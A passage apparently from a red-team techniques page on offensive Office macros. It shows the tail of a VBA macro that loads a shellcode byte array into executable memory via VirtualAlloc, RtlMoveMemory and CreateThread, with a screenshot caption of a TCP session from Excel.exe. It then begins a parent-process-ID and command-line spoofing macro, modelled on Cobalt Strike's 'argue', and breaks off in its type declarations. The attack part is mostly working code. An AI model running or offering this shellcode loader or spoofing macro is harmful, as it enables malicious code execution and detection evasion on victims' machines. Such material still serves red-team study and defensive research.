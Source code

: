 ```csharp
235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
        Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
        For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                Wyzayxya = Hyeyhafxp(Zolde)
                Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
        Next Zolde
        Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
End Sub
```

![](../../../.gitbook/assets/peek-2019-04-10-22-35.gif)

![TCP session from Excel.exe](../../../.gitbook/assets/screenshot-from-2019-04-10-22-36-03.png)

## Parent Process ID Spoofing

With this technique it is possible to specify the PID under which our process will be launched as well as process commandline arguments can be spoofed. Note that this is the same technique Cobalt Strike uses under the hood in its `argue` module:

```csharp
' code from https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/
' Windows API constants

Const EXTENDED_STARTUPINFO_PRESENT = &H80000
Const HEAP_ZERO_MEMORY = &H8&
Const SW_HIDE = &H0&
Const PROCESS_ALL_ACCESS = &H1F0FFF
Const PROC_THREAD_ATTRIBUTE_PARENT_PROCESS = &H20000
Const TH32CS_SNAPPROCESS = &H2&
Const MAX_PATH = 260


'''''''''''''''''''''''''''''''''''''''''''''''''''
''''''''''''''' Data types ''''''''''''''''''''''''
'''''''''''''''''''''''''''''''''''''''''''''''''''
 


Private Type PROCESS_INFORMATION
    hProcess As LongPtr
    hThread As LongPtr
    dwProcessId As Long
    dwThreadId As Long
End Type


Private Type STARTUP_INFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
```
